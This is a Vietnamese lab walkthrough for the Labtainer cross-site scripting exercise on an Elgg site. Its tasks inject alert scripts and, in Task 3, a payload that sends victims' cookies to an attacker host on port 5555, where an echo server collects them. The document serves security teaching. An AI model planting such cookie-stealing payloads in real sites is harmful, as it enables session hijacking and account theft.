 # Tấn công Cross Site Scripting vào máy chủ web

- Chạy lệnh: labtainer xsitetrong terminal của Labtainer
  
  ![image](https://github.com/user-attachments/assets/20b92a0d-37bc-4430-9df8-f5046b869a44)

- Chương trình sẽ hiển thị 3 terminal bao gồm “vuln-site”, “victim”, “attacker”.

  ![image](https://github.com/user-attachments/assets/a7d288d1-6afe-4995-995a-927b8e604705)


- Gõ lệnh: sudo systemctl restart httpd
- Đồng thời trình duyệt Firefox sẽ tự động khởi chạy trong vài giây.
  
  ![image](https://github.com/user-attachments/assets/e23e1bb5-db1c-4182-8ab5-854e8a5871b4)

- Open terminal victim gõ lệnh:
- firefox http://www.xsslabelgg.com

  ![image](https://github.com/user-attachments/assets/26725d2d-ad9d-4ebe-86e5-466df225ec56)

## Task 1: Sử dụng mã độc hại hiện thị cửa sổ cảnh báo
- Mục tiêu của nhiệm vụ này là nhúng một chương trình JavaScript vào profile Elgg của bạn, sao cho khi một người dùng khác xem hồ sơ của bạn, chương trình Javascript sẽ được thực thi và một cảnh báo được hiện thị. 

- Đăng nhập vào hệ thống bằng tài khoản `samy` với mật khẩu là `seedsamy`

  ![image](https://github.com/user-attachments/assets/3562a588-fb53-404e-adbe-4d3765807d5c)

- Vào mục More trên thanh taskbar - chọn member-chọn edit profile.
- Chương trình Javascript như sau:
  ```
  <script>alert('XSS');</script>
  ```
  ![image](https://github.com/user-attachments/assets/d74c305e-bdb4-4432-88fa-cb8af996c71f)


## Task 2: Sử dụng mã độc hại hiện thị Cookies trên cửa sổ cảnh báo
- Mục tiêu nhiệm vụ này tương tự task1 nhưng chúng ta sẽ hiện thị cookie người dùng.
- Chương trình Javascript như sau:
  
    ```
    <script>alert(document.cookie);</script>
    ```

    ![image](https://github.com/user-attachments/assets/4576fd65-c6ce-40e5-9259-33bc8dd2ba6f)

## Task 3: Ăn cắp Cookies từ máy của nạn nhân
- Trong nhiệm vụ này, kẻ tấn công tạo một mã Javascript gửi cookie người dùng về cho kẻ tấn công, mã Javascript sẽ gửi một HTTP request với cookie nạn nhân.
  ```
   <script>document.write('<img src=http://attacker_IP_address:5555?c='+ escape(document.cookie) + '>');</script>
  ```
- Khi Javascript chèn thẻ img vào, trình duyệt sẽ cố tải hình ảnh từ url điều này sẽ gửi một request cho kẻ tân công. Javascript đưa ra dưới đây sẽ gửi cookie đến cổng 5555 của máy kẻ tấn công, máy chủ kẻ tấn công sẽ in ra những gì nó nhận được. Máy chủ TCP nằm trong thư mục echoserver.
  
- Open terminal acttacker, vào thư mục run `./echoserv 5555` và chúng ta sẽ lắng nghe request của trình duyệt gửi cookie về cho kẻ tấn công.
  ```
  <script>document.write('<img src=http://172.25.0.3:5555?c='+ escape(document.cookie) + '>');</script>
  ```
  ![image](https://github.com/user-attachments/assets/ea46dd42-2e13-4dd7-b08a-d141b6aa85a1)
